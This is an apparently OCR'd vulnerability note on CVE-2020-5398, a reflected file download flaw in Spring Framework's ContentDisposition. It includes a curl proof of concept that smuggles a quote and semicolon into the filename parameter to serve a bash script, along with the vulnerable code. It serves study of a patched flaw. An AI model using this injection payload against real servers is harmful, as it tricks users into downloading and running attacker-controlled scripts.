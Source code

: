 Diff: hhttps://github.com/spring-projects/spring-framework/commit/956ffe68587c8d5f21135b5ce4650af0c2dea933

Ref: 

https://github.com/motikan2010/CVE-2020-5398

https://drive.google.com/file/d/0B0KLoHg_gR_XQnV4RVhlNl96MHM/view?resourcekey=0-NV7cTUTB48bltMEddlULLg

POC: 
```
curl 'http://127.0.0.1:8080/?filename=sample&contents=Hello,%20World' --dump-header -
curl 'http://127.0.0.1:8080/?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Aid' --dump-header -
curl 'http://127.0.0.1:8080/?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Aid' --dump-header -
```
Factor: 
```
@RequestMapping(value = {"/"}, method = RequestMethod.GET)
public ResponseEntity<String> download(@RequestParam("filename") String fileName, @RequestParam("contents") String contents) {

// Make file name in response header
ContentDisposition contentDisposition = ContentDisposition.builder("attachment")
	.filename(fileName + ".txt") // Secure .txt file
	.build();
HttpHeaders headers = new HttpHeaders();
headers.setContentDisposition(contentDisposition);

// Download contents
return ResponseEntity.ok()
	.headers(headers)
	.contentType(MediaType.parseMediaType("application/octet-stream"))
	.body(contents);
}

package org.springframework.http;
public final class ContentDisposition {
if (this.filename != null) {
    if (this.charset != null && !StandardCharsets.US_ASCII.equals(this.charset)) {
	sb.append("; filename*=");
	sb.append(encodeFilename(this.filename, this.charset));
    } else {
	sb.append("; filename=\""); 
	sb.append(this.filename).append('"');  //filename -> "sample.sh";.txt"
    }
}
```

#### CVE-2020-5421 Reflected File Download
Affected Version: < 5.2.8 or 5.1.17 or 5.0.18 or 4.3.28 Bypass CVE-2015-5211
